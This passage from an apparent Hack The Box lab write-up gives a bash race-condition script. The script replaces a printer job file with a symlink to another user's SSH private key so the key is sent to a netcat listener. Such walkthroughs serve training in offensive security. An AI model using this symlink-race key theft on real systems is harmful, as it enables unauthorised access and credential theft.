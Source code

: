When using the "printer" to execute `ls -la`, we find that the file is being written by `srvadm`. 

![72fd02bedc484adc2fa04b7b86c3f108.png](/images/htb-quick/e67ef4d13cad406b9c3f40eef9b54d94.png)

Now we just need to modify the script to quickly delete and link  `/home/srvadm/.ssh/id_rsa` instead, which should send us the SSH private key of `srvadm`. 

```bash
#!/bin/bash

FILE='2020-08-24_*'

while :
do
        if [ -e $FILE ]; then
                echo Exec
                FILENAME=$(basename 2020-08-24_*)
                rm -f $FILENAME
                ln -s /home/srvadm/.ssh/id_rsa $FILENAME
                break
        fi
done
```

We need to use netcat to capture the file instead, due to line terminators that make the python3 http.server close the connection after the first line of the file. 

